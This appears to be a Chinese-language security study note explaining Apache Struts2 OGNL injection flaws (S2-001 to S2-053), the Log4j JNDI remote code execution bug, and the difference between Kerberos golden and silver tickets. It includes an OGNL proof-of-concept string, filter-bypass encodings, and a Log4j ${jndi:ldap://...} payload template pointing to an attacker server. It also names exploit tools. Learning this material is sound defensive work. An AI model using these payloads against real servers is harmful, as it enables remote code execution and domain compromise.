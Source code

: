 ## struts2漏洞相关

Apache Struts2 是一个基于MVC设计模式的Web应用框架，会对某些标签属性（比如 id）的属性值进行二次表达式解析，因此在某些场景下将可能导致远程代码执行。

- S2-001：用户提交表单数据并且验证失败时，后端会将用户之前提交的参数值使用 OGNL 表达式 `%{value}` 进行解析，然后重新将 `value` 填充到对应的表单数据中。构造PoC : `%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}`，会返回 `/user/local/tomcat` 。
- S2-005：S2-005 漏洞的起源源于 S2-003 (受影响版本: 低于Struts 2.0.12)，struts2 会将 http 的每个参数名解析为 OGNL 语句执行(可理解为java代码)。OGNL 表达式通过 # 来访问 struts 的对象，struts 框架通过过滤 # 字符防止安全问题，然而通过 unicode 编码( `\u0023` )或8进制( `\43` )即可绕过安全限制，对于S2-003漏洞，官方通过增加安全配置(禁止静态方法调用和类方法执行等)来修补，但是安全配置被绕过再次导致了漏洞，攻击者可以利用 OGNL 表达式将这2个选项打开。
- S2-007：`age` 来自于用户输入，传递一个非整数给 `id` 导致错误，struts2 会将用户的输入当作 ongl 表达式执行，从而导致了漏洞。
- S2-012: 如果在配置 `Action` 中 `Result` 时使用了重定向类型，并且还使用 `${param_name}` 作为重定向变量，`UserAction` 中定义有一个 `name` 变量，当触发 redirect 类型返回时，Struts2 获取使用 `${name}` 获取其值，在这个过程中会对 `name` 参数的值执行 OGNL 表达式解析，从而可以插入任意 OGNL 表达式导致命令执行。
- S2-015：如果一个请求与任何其他定义的操作不匹配，它将被匹配`*`，并且所请求的操作名称将用于以操作名称加载 JSP 文件。并且，1 作为 OGNL 表达式的威胁值，`{ }`可以在服务器端执行任意的Java代码。这个漏洞是两个问题的组合：

1. 请求的操作名称未被转义或再次检查白名单
2. 在 `TextParseUtil.translateVariables` 使用组合 `$`和 `%` 开放字符时对 OGNL 表达式进行双重评.

- S2-016：在TextParseUtil.translateVariables使用组合 `$` 和 `%` 开放字符时对OGNL表达式进行双重评估。
- S2-029：在Cookie拦截器中使用了OGNL表达式解析cookie的name和value。
- S2-032：在动态方法调用功能中使用了OGNL表达式解析method参数。
- S2-045：在Jakarta Multipart parser插件中使用了OGNL表达式解析Content-Type头部。
- S2-046：在Jakarta Multipart parser插件中使用了OGNL表达式解析Content-Disposition头部。
- S2-048：在URLValidator中使用了OGNL表达式解析url参数。
- S2-052：在REST插件中使用了OGNL表达式解析Content-Type头部。
- S2-053：在Freemarker标签库中使用了OGNL表达式解析id属性。
- S2-devMode：当 Struts2 开启 devMode 模式时，将导致严重远程代码执行漏洞。如果 WebService 启动权限为最高权限时，可远程执行任意命令，包括关机、建立新用户、以及删除服务器上所有文件等等。

## Log4j漏洞相关

log4j漏洞是一个 RCE 漏洞，可能影响到任何使用开源 Log4J 2 日志库的Java应用程序。

这个漏洞的原理是利用 Log4j 没有检查 LDAP 和 JNDI 请求，从而允许攻击者在服务器上执行任意Java代码。这是一个典型的缺乏输入验证和盲目信任输入的例子，没有对输入进行清理。（在这种情况下，Log4j没有对传入的URL进行清理）。这次漏洞的形成，是因为 Log4j 2 组件中 `lookup` 功能的实现类 `JndiLookup` 的设计缺陷导致，这个类是在 `Log4j-core-xxx.jar` ，所以这个漏洞和 `Log4j-core` 有关

- log4j 漏洞是利用 log4j 的日志功能中存在的一个远程代码执行漏洞，攻击者可以通过构造恶意的JNDI（Java Naming and Directory Interface）引用，触发 log4j 解析并执行远程代码。
- log4j 漏洞影响了 `2.x < 2.15.0-rc2` 的 Apache log4j-core 的应用项目或组件，包括很多常见的 Java 框架和中间件，如 Spring Boot , Apache Struts2 , Apache Solr 等。
- log4j 漏洞的利用方法是在一个恶意请求中携带 `${jndi:ldap://host:port/name}` 这样的格式，其中 `host:port` 是攻击者控制的服务器，`name` 是攻击者编写的利用类，当 log4j 接收到这个请求时，会尝试连接到 `host:port` 并加载 `name` 类，从而执行攻击者的代码。
- log4j 漏洞的利用工具或脚本有很多，例如marshalsec, ysoserial, log4shell等，它们可以帮助攻击者生成恶意的JNDI引用或利用类，并提供一些常见的攻击载荷，如反弹shell, 文件读写, 命令执行等。

## 黄金票据和白银票据的区别

黄金票据和白银票据是两种利用 Kerberos 认证的票据传递攻击（PtT）方法。它们的原理和区别如下：

- 黄金票据是伪造 `TGT`（门票发放票），而白银票据则是伪造 `ST`（门票）。
- 黄金票据需要获取域内 `krbtgt` 用户的密码哈希值，而白银票据需要获取**域内服务账号**的密码哈希值。
- 黄金票据可以访问域内的**任意资源**，而白银票据只能访问指定服务的**部分资源**，如 cifs（文件共享服务），mssql ，winrm （ Windows 远程管理），DNS 等等。
- 黄金票据需要与 KDC（密钥分发中心）进行交互，而白银票据不需要，因此白银票据更加隐蔽。
- 黄金票据可以伪造任意用户，即使其不存在或被禁用，而白银票据只能伪造存在的用户。
